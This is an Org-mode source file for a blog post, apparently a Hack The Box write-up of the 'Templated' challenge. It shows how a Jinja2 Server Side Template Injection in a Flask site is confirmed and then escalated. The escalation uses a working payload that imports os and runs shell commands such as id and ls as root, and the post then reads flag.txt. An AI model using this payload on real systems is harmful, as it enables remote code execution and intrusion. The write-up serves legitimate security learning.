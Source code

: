 #+TITLE: Templated
#+AUTHOR: Romeu Vieira

#+OPTIONS: html-style:nil
#+OPTIONS: html-scripts:nil

#+OPTIONS: author:nil
#+OPTIONS: email:nil
#+OPTIONS: date:t
#+OPTIONS: toc:nil

#+PROPERTY: header-args :eval no

#+HTML_HEAD: <link rel="stylesheet" type="text/css" href="/style.css"/>

#+EXPORT_FILE_NAME: templated

#+BEGIN_EXPORT html
<p class="spacing-64" \>
#+END_EXPORT

#+TOC: headlines 2

#+BEGIN_EXPORT html
<p class="spacing-64" \>
#+END_EXPORT

When you enter the given URL, you are directly presented with this text:

#+begin_src
Site still under construction
Proudly powered by Flask/Jinja2
#+end_src

This information is here for a reason. You have two different technologies that
go hand-in-hand when doing simple Python web development: Flask and Jinja2.
First thing you can think of is that maybe Flask has some vulnerabilities that
can be exploited. And altough that could be true, the title of the challenge is
an hint.
=Templated=... and Jinja2 is a template engine. Therefore, this could be a
challenge where you have to know how to exploit a Server Side Template Injection
(SSTI).
First thing we can try, to verify this is doing something like this on the
Address Bar: =http://209.97.138.240:30840/{{1+1}}=. We are trying to check if
=1+1= is evaluated.

We get this after submitting the URL:

#+begin_src
Error 404
The page '2' could not be found
#+end_src

It seems ={{1+1}}= was evaluated to =2=! So it is confirmed that we are able to
do an SSTI.
An object we can access on a GET request is called =request=.
If we execute =http://209.97.138.240:30840/{{request}}= we get this string
=<Request 'http://209.97.138.240:30840/%7B%7Brequest%7D%7D' [GET]>= which
represents an object in Python.
From this object, we can see its methods and attributes. We may try doing a
request to =http://209.97.138.240:30840/{{dir(request)}}= but we will encounter
a 500 Internal Server Error without any relevant information.

For this, I just fired an instance of Flask on my side using the following code:

#+begin_src python
from flask import Flask, request, render_template_string

app = Flask(__name__)

@app.route("/")
def home():
    if request.args.get('c'):
        return render_template_string(request.args.get('c'))
    else:
        print(dir(request))
        return "test"

if __name__ == "__main__":
    app.run(debug=True)
#+end_src

Then I just executed =python app.py= and follow the URL.
Then the output of `dir(request)` will be printed to the console:

#+begin_src python
['__class__', '__delattr__', '__dict__', '__dir__', '__doc__', '__enter__', '__eq__', '__exit__', '__format__', '__ge__', '__getattribute__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__le__', '__lt__', '__module__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', '__weakref__', '_cached_json', '_get_data_for_json', '_get_file_stream', '_get_stream_for_parsing', '_load_form_data', '_parse_content_type', 'accept_charsets', 'accept_encodings', 'accept_languages', 'accept_mimetypes', 'access_control_request_headers', 'access_control_request_method', 'access_route', 'application', 'args', 'authorization', 'base_url', 'blueprint', 'cache_control', 'charset', 'close', 'content_encoding', 'content_length', 'content_md5', 'content_type', 'cookies', 'data', 'date', 'dict_storage_class', 'disable_data_descriptor', 'encoding_errors', 'endpoint', 'environ', 'files', 'form', 'form_data_parser_class', 'from_values', 'full_path', 'get_data', 'get_json', 'headers', 'host', 'host_url', 'if_match', 'if_modified_since', 'if_none_match', 'if_range', 'if_unmodified_since', 'input_stream', 'is_json', 'is_multiprocess', 'is_multithread', 'is_run_once', 'is_secure', 'json', 'json_module', 'list_storage_class', 'make_form_data_parser', 'max_content_length', 'max_form_memory_size', 'max_forwards', 'method', 'mimetype', 'mimetype_params', 'on_json_loading_failed', 'origin', 'parameter_storage_class', 'path', 'pragma', 'query_string', 'range', 'referrer', 'remote_addr', 'remote_user', 'routing_exception', 'scheme', 'script_root', 'shallow', 'stream', 'trusted_hosts', 'url', 'url_charset', 'url_root', 'url_rule', 'user_agent', 'values', 'view_args', 'want_form_data_parsed']
#+end_src

From here we find =application= attribute which is relevant for what we want to
do.

By following this logic, now there is a possibility of using
[[https://www.python.org/download/releases/2.3/mro/][Python MRO]] to our advantage do actually
execute any shell command we want. We can import any python module by using =__import__= through the =request=
object from Flask:

#+begin_src
{{request.application.__globals__.__builtins__.__import__}}
#+end_src

A module that is used to execute shell commands is =os=, where we can use the
=popen= method. We can first try and check the id of the current user:

#+begin_src
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
#+end_src

The result is as follows:

#+begin_src
uid=0(root) gid=0(root) groups=0(root)
#+end_src

We are already root! Now let us see what `ls` gives us:

#+begin_src
bin boot dev etc flag.txt home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var
#+end_src

We can clearly see that we are on the root directory of the filesystem, which
has a file called =flag.txt=.

To read the flag, we just do =cat flag.txt=!

* FOOTER                                                                                              :ignore:
:PROPERTIES:
:clearpage: t
:END:
#+BEGIN_EXPORT html
<hr>
<footer>
  <div class="container">
    <ul class="menu-list">
      <li class="menu-list-item flex-basis-100-margin fit-content">
        <a href="/index.html">Home</a>
      </li>
      <li class="menu-list-item flex-basis-100-margin fit-content">
        <a href="/articles/articles.html">Articles</a>
      </li>
      <li class="menu-list-item flex-basis-100-margin fit-content">
        <a href="/writeups/htb/index.html">Write-Ups</a>
      </li>
      <li class="menu-list-item flex-basis-100-margin fit-content">
        <a class="inactive-link">16-01-2021</a>
      </li>
    </ul>
  </div>
</footer>
#+END_EXPORT
